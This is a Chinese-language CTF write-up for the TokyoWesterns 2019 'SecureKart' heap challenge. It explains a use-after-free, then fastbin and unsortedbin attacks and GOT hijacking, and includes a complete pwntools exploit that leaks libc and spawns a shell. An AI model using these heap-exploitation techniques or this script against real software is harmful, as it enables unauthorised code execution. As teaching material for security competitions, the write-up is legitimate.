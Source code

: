 ```yaml
---
title: 'TokyoWesterns_2019:SecureKart'
date: 2019-09-03 12:06:50
tags: heap 
layout: default
---
```

SecureKart
<!--more-->
# prelogue
Thank @peanuts for the main part.
# analysis
```s
[*] '/home/n132/Desktop/SecureKart/karte'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
# vulnerablity
没有开PIE和全RELRO
漏洞点
* 半个UAF
* modify时没有检测inuse

利用限制:
1. 只有三个chunk ptr
2. UAF只有modify的时候能用一次 free时检测inuse
3. add中 size>0x800的时候用calloc 其他时候用malloc

比赛的时候全靠@peanuts师傅完成了改掉了lock的操作我当时照着流程复现了一遍
后面的内容其实相比前面的巧妙来说只是皮毛.
[attachmen][1]
# solution
本节是我赛后删掉exp复现时的思路
第一个遇到的问题因为`tcache size`范围中用的是`calloc`是不能直接做`tache hijacking`的
所以要弄到`fastbin`上搞方法也很简单
```python
for x in range(7):
    free(add(0x68))
```
这样就会填满tacache

之后利用`uaf`+`modify`来完成`fastbin_atk`

然后就要想要控制哪里.
本题没有开全RELRO和PIE所以首选bss段上那些重要的数据(全局变量 got表)

因为我们唯一的一次攻击机会被我们使用了要么一次成功（连地址都没有泄漏 还有fastbin-atk还是有head限制的所以不太可能)要么扩大利用.

如果是要泄漏的话在没有开`full RELRO`和`PIE`的情况下显然劫持某些`got`为`puts`比`io_leak`简单.

因为前者在本题环境下需要做`unsortedbin-atk`后者因为只有三个chunk_ptr且没办法利用name区域的edit来控制stdout,换言之就是他们都需要`unsortedbin-atk`但是前者在做了`unsortedbin-atk`之后更加方便.

所以咱的之后大致思路就有了:`unsortedbin-atk`创造一个`0x7f`的`chunk-head`在`bss`上之后控制bss上一些关键值:
* lock的值（可以扩大利用导致无限modify） 
* list的指针（配合低一点 可以任意地址写）

如果达到上述两项那么就可以为所欲为了.

于是我们细化一下流程:
首先是fastbin-atk是有head的需求所以直接来是比较难找到的
我们可以控制`name`区域次数不限 所以其上可以伪造`chunk`（一个限制是控制区域只有0x30）

我们最后要做0x71的`fastbin-atk`就需要至少`0x70+1`字节的可控制区域所以我们要控制name区域后的内容
因为0x80依然是fastbin内的所以我们可以第一次做`fastbin-atk`时使用0x80的大小先在后面的放点以后我们需要的东西.


那么我们继续要做的事情是创造一个可以控制的`unsortedbin`那这显然就是`name`区域了

之后因为name可以任意edit我们更改`fake-chunk`的`head`free到其他的`fastbin`中
利用`malloc_consolidate`使其进入`unsortedbin`（具体详见大哥的博客:[chltql][0]）

这样之后的事情就很常规了控制lock+指针任意地址写 造成`leak + got_hijacking`

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,c="A"):
	cmd(1)
	cmd(size)
	p.sendafter("> ",c)
	p.readuntil("id ")
	return int(p.readline(),10)
def free(idx):
	cmd(3)
	cmd(idx)
def edit(idx,c):
	cmd(4)
	cmd(idx)
	p.sendafter("> ",c)
def do_name(name):
	p.sendafter(".. ",name)
def rename(name):
	cmd(99)
	do_name(name)
	
context.log_level='debug'
context.arch='amd64'
address=0x0000000006021A0
p=process('./karte')
#p=remote("karte.chal.ctf.westerns.tokyo",10001)
do_name("It's n132!")
for x in range(7):
	tmp=add(0x18)#0
	free(tmp)
for x in range(7):
	tmp=add(0x68)#0
	free(tmp)
for x in range(7):
	tmp=add(0x78)#0
	free(tmp)
t1=add(0x78)
t2=add(0x78)
free(t2)
free(t1)
edit(t1,p64(address)[:3])
rename(flat(0,0x81))
t1=add(0x78)
t2=add(0x78,p64(0x21)*13+p64(0x21))
rename(p64(0x21)*2)
t3=add(0x410)
free(t2)
free(t3)
rename(flat(0,0x21,0,0x602118-5-0x10))
free(t1)
t1=add(0x18)
rename(flat(0,0x71))
free(t1)
rename(flat(0,0x71,0x602110))
add(0x68)
pay=p64(0x0000000400000041)+'\x00'*0x18
pay+=p64(0x13200000001)+p64(0x000000000602018)
pay+=p64(0)*2+p64(0x13300000001)+p64(0x000000000602078)
pay+=p64(0x0000deadc0bebeef)
add(0x68,pay)
edit(0x132,p64(0x000000000400710)[:6])
free(0x133)
base=u64(p.readline()[:-1].ljust(0x8,'\x00'))-(0x7ffff7a24680-0x7ffff79e4000)
log.warning(hex(base))
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
edit(0x133,p64(libc.sym['system']+base)[:6])
cmd("/bin/sh")
p.interactive()
```

# epilogue

1. 质量挺高的一题
2. 挺考验利用的,一步步抽丝剥茧.





[0]: https://ch4r1l3.github.io/2019/01/22/malloc-consolidate%E8%B0%83%E7%94%A8%E6%9D%A1%E4%BB%B6/
[1]: https://github.com/n132/WriteUps/tree/master/2019_TokyoWesterns/SecureKart
